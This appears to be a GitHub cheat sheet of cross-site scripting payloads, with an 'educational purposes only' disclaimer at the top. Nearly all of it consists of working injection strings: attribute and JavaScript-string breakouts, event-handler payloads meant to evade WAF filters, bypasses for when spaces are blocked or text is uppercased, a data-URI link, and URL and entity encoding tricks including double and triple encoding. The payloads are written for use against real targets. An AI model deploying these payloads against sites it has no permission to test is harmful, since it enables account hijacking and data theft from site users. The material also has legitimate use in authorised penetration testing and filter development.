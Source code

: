 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? It is important to remember that the basic events work even with elements not part of html. Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " in your injection.
```html
" onclick="prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<video onmouseenter=prompt(123)>
```

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
```html
a'*prompt(123)*'
<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```
```
http://yourtarget/whatever?a=<a &a= onclick=prompt(123) &a= >adsf
```
That would render potentially
```html
<a , onclick=prompt(123) , >asdf
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.

Just a few things to remember
==============
```
%3c -- <
%3e -- >
%2b -- + (this is important for sql injection)
%26%2360; -- <
%26%2362; -- >
\u003C -- <
\x27 -- '
%26lt; or %26lt -- <
%26gt; or %26gt -- >
```
Double Encoding Example
```
%253c
```
Triple Encoding
```
%25253c
```

